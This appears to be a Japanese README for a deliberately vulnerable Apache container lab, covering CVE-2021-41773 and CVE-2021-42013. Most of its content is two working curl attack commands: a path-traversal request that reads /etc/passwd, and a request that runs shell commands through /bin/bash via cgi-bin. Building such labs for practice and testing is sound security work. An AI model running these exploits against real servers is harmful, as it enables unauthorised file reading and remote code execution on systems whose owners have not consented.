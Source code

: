 # 脆弱性を持ったApacheコンテナ


## CVE-2021-41773
任意のファイルの中身が確認できる脆弱性。  

攻撃コマンド
```
curl http://IPアドレス:8081/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## CVE-2021-42013
任意のコードが実行できる脆弱性。

攻撃コマンド
```
curl 'http://IPアドレス:8082/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; ls -la'
```
